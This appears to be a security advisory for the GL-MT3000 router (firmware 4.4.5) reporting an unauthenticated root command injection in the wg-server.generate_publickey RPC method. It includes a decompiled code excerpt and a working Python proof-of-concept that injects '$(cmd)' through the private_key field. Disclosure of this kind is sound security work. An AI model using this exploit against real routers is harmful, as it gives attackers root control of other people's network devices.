


Submission Date: 2026.5.19
Vendor: GL-MT3000
Version: 4.4.5
Firmware: openwrt-mt3000-4.4.5-0811-1691754744.tar
Download Link: https://dl.gl-inet.cn/router/mt3000/stable


An unauthenticated command injection vulnerability exists in the `/cgi-bin/glc` endpoint via the `wg-server.generate_publickey` method of the affected product. The `wg-server.so` native plugin at `/usr/lib/oui-httpd/rpc/wg-server.so` passes the attacker-supplied `private_key` parameter into `sprintf("echo %s | wg pubkey")` → `getShellCommandReturn()` (which invokes `/bin/sh -c`). Shell command substitution `$()` is expanded by the shell before the pipe executes, resulting in root command execution without authentication.

The reported vulnerable flow is:

```text
Unauthenticated attacker
  -> POST /cgi-bin/glc {"object":"wg-server","method":"generate_publickey",
       "args":{"private_key":"$(<cmd>)"}}
  -> wg-server.so generate_publickey @ 0x0010b038
  -> sprintf(cmd, "echo %s | wg pubkey", private_key)
  -> getShellCommandReturn(cmd, output)
  -> shell expands $(<cmd>) first → RCE → echo "" | wg pubkey
  -> wg pubkey fails (no input) → "generate publickey failed"
  -> (RCE already occurred before the error is returned)
```

Ghidra decompilation of `generate_publickey` at 0x0010b038 (580 bytes, 8 basic blocks):



```c
undefined8 generate_publickey(undefined8 param_1, undefined8 param_2)
{
    // Extract private_key from JSON args
    json_object_get(param_1, "private_key");
    pcVar5 = (char *)json_string_value();              // Source

    // Directly used in shell pipe command — no validation
    sprintf(cmd, "echo %s | wg pubkey", pcVar5);       // Transform
    getShellCommandReturn(cmd, output);                 // SINK
    // If wg pubkey returns empty: error "generate publickey failed"
}
```

The strings analysis of `wg-server.so` confirmed the `echo %s | wg pubkey` format string. The `generate_privatekey` method in the same binary uses the native WireGuard key generation API (`wg genkey`) and is not injectable via this pattern.

Exploit the vulnerability by sending a crafted HTTP request:

```python
#!/usr/bin/env python3
"""PoC: wg-server.generate_publickey — unauthenticated RCE via echo %s | wg pubkey"""
import json, ssl, sys, urllib.request, urllib.error

TARGET = sys.argv[1] if len(sys.argv) > 1 else "https://192.168.8.1"
CMD    = sys.argv[2] if len(sys.argv) > 2 else "id > /tmp/poc_wg_pubkey"

ctx = ssl.create_default_context()
ctx.check_hostname = False
ctx.verify_mode = ssl.CERT_NONE

payload = f"$( {CMD} )"
data = json.dumps({"object":"wg-server","method":"generate_publickey",
    "args":{"private_key":payload}}).encode()
req = urllib.request.Request(f"{TARGET}/cgi-bin/glc", data=data,
    headers={"Content-Type": "application/json"}, method="POST")
try:
    resp = urllib.request.urlopen(req, timeout=15, context=ctx)
    print(f"[+] payload private_key='{payload}'")
    print(f"[+] response: {resp.read().decode(errors='replace')[:200]}")
    print(f"[+] check /tmp/poc_wg_pubkey on target")
except Exception as e:
    print(f"[-] {e}")
```

The exploitation is shown below.


